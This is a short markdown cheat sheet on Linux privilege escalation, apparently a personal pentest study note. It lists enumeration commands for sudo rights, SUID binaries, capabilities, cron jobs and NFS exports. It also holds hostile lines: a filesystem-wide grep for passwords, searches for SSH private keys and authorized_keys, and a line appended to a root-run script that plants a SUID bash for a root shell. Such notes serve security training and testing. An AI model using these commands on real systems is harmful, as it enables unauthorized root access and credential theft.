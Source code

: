 ```yaml
---
title: Linux Privilege Escalation
date: "2022-03-21T00:00:00.000Z"
description: The purpose of this attempt is to gain unauthorize access to the system and locate some weak points {just commands}.
---
```


 ```The purpose of this attempt is to gain unauthorize access to the system and locate some weak points. Here are the commands that I used and useful resources that makes a potential access gain.```


###### Check Kernel Version 
```uname -a```

###### Check distro version
```cat /proc/version```

###### Check all the services running by root and check other services that running by different users
```ps aux | grep root```

###### Check what you can run as SUDO
```sudo -l```

###### Check all the users
```cat /etc/passwd```

###### Check history
```history```

###### Check all the connection
```netstat -ano```

###### Find no root Squashing, all the file you will be putting there will execute it as root
```cat /etc/exports```

###### Find any SUID
```find / -perm -u=s -type f 2>/dev/null```

###### Look for any password
```grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null```

###### Check shadow and passwd permission
```ls -la /etc/passwd```
```ls -la /etc/shadow```

###### Check capabilities
```getcap -r / 2>/dev/null```

###### Check schedulers and pay attention on the file permission, PATH and location if you can overwrite the file
```cat /etc/crontab```
```systemctl list-timers --all```

###### If this command is executed by root it will create file /tmp/bash  and if it execute by /tmp/bash -p it will create a shell root
```echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> file.sh```

###### Look for any confidential files
```find / -name "id_rsa" 2> /dev/null```
```find / -name "authorized_keys" 2> /dev/null```
```find / -name "pass*" 2> /dev/null```

###### Use automated tools
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
https://github.com/rebootuser/LinEnum
https://github.com/mzet-/linux-exploit-suggester
https://github.com/sleventyeleven/linuxprivchecker
https://gtfobins.github.io/


